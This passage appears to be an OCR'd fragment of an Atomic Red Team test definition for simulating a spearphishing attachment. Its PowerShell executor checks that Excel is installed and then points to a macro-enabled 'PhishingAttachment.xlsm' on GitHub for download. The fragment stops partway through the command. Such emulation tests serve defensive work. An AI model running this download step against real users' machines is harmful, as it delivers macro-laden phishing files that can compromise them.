 ```json
                                                                                       'macro-enabled '
                                                                                       'Excel '
                                                                                       'file '
                                                                                       'to '
                                                                                       'the '
                                                                                       'current '
                                                                                       'location.\n',
                                                                        'executor': {'command': 'if '
                                                                                                '(-not(Test-Path '
                                                                                                'HKLM:SOFTWARE\\Classes\\Excel.Application)){\n'
                                                                                                '  '
                                                                                                'return '
                                                                                                "'Please "
                                                                                                'install '
                                                                                                'Microsoft '
                                                                                                'Excel '
                                                                                                'before '
                                                                                                'running '
                                                                                                'this '
                                                                                                "test.'\n"
                                                                                                '}\n'
                                                                                                'else{\n'
                                                                                                '  '
                                                                                                '$url '
                                                                                                '= '
                                                                                                "'https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1193/bin/PhishingAttachment.xlsm'\n"
                                                                                                '  '
                                                                                                '$fileName '
                                                                                                '= '
                                                                                                "'PhishingAttachment.xlsm'\n"
                                                                                                '  '
                                                                                                'New-Item '
                                                                                                '-Type '
```